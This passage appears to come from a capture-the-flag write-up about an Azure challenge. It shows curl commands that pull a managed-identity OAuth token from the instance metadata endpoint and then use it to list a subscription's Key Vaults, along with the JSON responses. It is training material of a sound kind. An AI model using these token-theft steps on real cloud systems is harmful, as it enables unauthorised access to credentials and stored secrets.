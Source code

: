 ```json
      {
        "ipv4": {
          "ipAddress": [
            {
              "privateIpAddress": "10.0.0.50",
              "publicIpAddress": ""
            }
          ],
          "subnet": [
            {
              "address": "10.0.0.0",
              "prefix": "24"
            }
          ]
        },
        "ipv6": {
          "ipAddress": []
        },
        "macAddress": "6045BDFE2D67"
      }
    ]
  }
}
```

We have to get a different token to talk to AD.

```
// Get the token:
curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.net' \
    -H Metadata:true > nem.txt

// Put it in the cURL config file like we saw before.
curl "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults?api-version=2022-07-01" \
    -K cfg2 
```

To get the result:

```json
{
  "value": [
    {
      "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-it-kv",
      "name": "northpole-it-kv",
      "type": "Microsoft.KeyVault/vaults",
      "location": "eastus",
      "tags": {},
      "systemData": {
        "createdBy": "thomas@sanshhc.onmicrosoft.com",
        "createdByType": "User",
        "createdAt": "2023-10-30T13:17:02.532Z",
        "lastModifiedBy": "thomas@sanshhc.onmicrosoft.com",
        "lastModifiedByType": "User",
        "lastModifiedAt": "2023-10-30T13:17:02.532Z"
      },
      "properties": {
        "sku": {
          "family": "A",
          "name": "Standard"
        },
        "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
```
